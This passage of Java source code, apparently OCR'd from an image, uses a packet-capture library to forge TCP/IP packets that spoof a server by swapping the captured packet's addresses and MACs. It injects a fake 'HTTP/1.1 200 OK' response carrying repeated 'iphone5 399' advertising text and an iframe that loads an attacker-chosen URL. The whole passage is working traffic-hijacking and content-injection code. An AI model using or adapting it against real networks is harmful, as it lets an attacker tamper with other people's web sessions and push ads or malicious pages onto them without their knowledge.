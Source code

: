                                         p1.setIPv4Parameter(tcpPacket.priority, tcpPacket.d_flag,
                                                        tcpPacket.t_flag, tcpPacket.r_flag,
                                                        tcpPacket.rsv_tos, tcpPacket.rsv_frag, true,
                                                        tcpPacket.more_frag, tcpPacket.offset,
                                                        tcpPacket.ident + 39289, 128, tcpPacket.protocol,
                                                        tcpPacket.dst_ip, tcpPacket.src_ip);
                                        p1.data = ("").getBytes();
                                        EthernetPacket ethernet = (EthernetPacket) tcpPacket.datalink;
                                        EthernetPacket ether = new EthernetPacket();
                                        ether.frametype = EthernetPacket.ETHERTYPE_IP;
                                        ether.src_mac = ethernet.dst_mac;
                                        ether.dst_mac = ethernet.src_mac;
                                        p1.datalink = ether;

                                        sender.sendPacket(p1);
                                        printDebugInfo(tcpPacket, ethernetPacket);

                                        p1 = new TCPPacket(tcpPacket.dst_port, tcpPacket.src_port,
                                                        tcpPacket.ack_num,
                                                        tcpPacket.sequence + segmentSize, false, true,
                                                        true, false, false, false, false, false,
                                                        tcpPacket.window + 2972, tcpPacket.urgent_pointer);

                                        p1.setIPv4Parameter(tcpPacket.priority, tcpPacket.d_flag,
                                                        tcpPacket.t_flag, tcpPacket.r_flag,
                                                        tcpPacket.rsv_tos, tcpPacket.rsv_frag, true,
                                                        tcpPacket.more_frag, tcpPacket.offset,
                                                        tcpPacket.ident + 39289, 128, tcpPacket.protocol,
                                                        tcpPacket.dst_ip, tcpPacket.src_ip);

                                        String dataContent = "<html>"
                                                        + "<head>"
                                                        + "<meta http-equiv=\"pragma\" content=\"no-cache\">"
                                                        + "<meta http-equiv=\"cache-control\" content=\"no-cache,must-revalidate\">"
                                                        + "</head>----------------------iphone5 399 !!!!!!!!!!!------------------------------------<br>" 
                                                        + "</head>----------------------iphone5 399------------------------------------<br>" 
                                                        + "</head>----------------------iphone5 399------------------------------------<br>" 
                                                        + "</head>----------------------iphone5 399------------------------------------<br>" 
                                                        + "</head>----------------------iphone5 399------------------------------------<br>" 
                                                        + "</head>----------------------iphone5 399------------------------------------<br>" +
                                                        "<iframe width='1000' border='0' height='700' src='http://"
                                                        + host + url + skipStr + "'></iframe> </html>\n";

                                        byte[] bData = dataContent.getBytes();

                                        p1.data = ("HTTP/1.1 200 OK\r\n"
                                                        + "Server: nginx\r\n"
                                                        + "Date: Tue, 29 Jan 2013 04:42:24 GMT\r\n"
                                                        + "Content-Type: text/html\r\n"
                                                        + "Content-Length: "
                                                        + bData.length
                                                        + "\r\n"
                                                        + "Last-Modified: Tue, 29 Jan 2013 04:42:01 GMT\r\n"
                                                        + "Connection: keep-alive\r\n"
                                                        + "Accept-Ranges: bytes\r\n" + "\r\n" + dataContent)
                                                        .getBytes();
                                        ethernet = (EthernetPacket) tcpPacket.datalink;
                                        ether = new EthernetPacket();
                                        ether.frametype = EthernetPacket.ETHERTYPE_IP;
                                        ether.src_mac = ethernet.dst_mac;
                                        ether.dst_mac = ethernet.src_mac;
                                        p1.datalink = ether;
